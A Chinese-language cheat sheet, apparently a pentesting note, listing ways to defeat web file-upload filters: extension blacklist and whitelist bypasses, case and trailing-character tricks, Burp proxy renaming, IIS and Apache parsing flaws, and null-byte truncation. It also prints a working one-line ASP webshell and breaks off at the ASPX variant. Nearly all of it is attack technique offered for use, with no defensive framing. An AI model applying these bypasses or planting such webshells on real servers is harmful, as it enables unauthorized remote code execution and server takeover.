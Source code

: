 2.黑名单：拒绝：asa,asp,asax,html,

绕过：c.cer证书,c.cdx 复合索引

3.大小写转换：c.AsP

4.a\#2easp

5.a.asp.

6.a.asp;

7.a.asp空格：burp

8.绕过客户端javascript脚本检测：

浏览器插件：禁用，firebug

用代理绕过：c.asp--改为c.jpg--&gt;burp--c.jpg改为:c.asp--forward

9.win2003:解析漏洞：

建立文件夹：aa.asp

里面放任何文件，都会解析为asp脚本文件

10.白名单：

只允许上传：jpg

c.asp;.jpg

11.nullbyte:空字符：0x00

a.asp.jpg--&gt;burp---hex:最后一个.改为00

操作系统：00，自动截断

12。apache:mime.types

由右向左：

c.php.rar.rar.rar

http://www.x.com/a.php?id=a.jpg/noexit.php

13.第二道：apache:php3,php5

只允上传.jpg

随意搜索一个jpg（小）--上传--burp:post

文件名：a.php3

图片末尾插入一句话木话变种马，php读文件

14.一句话木马：

ASP一句话：

&lt;%execute\(request\("cmd"\)\)%&gt;



ASPX一句话：
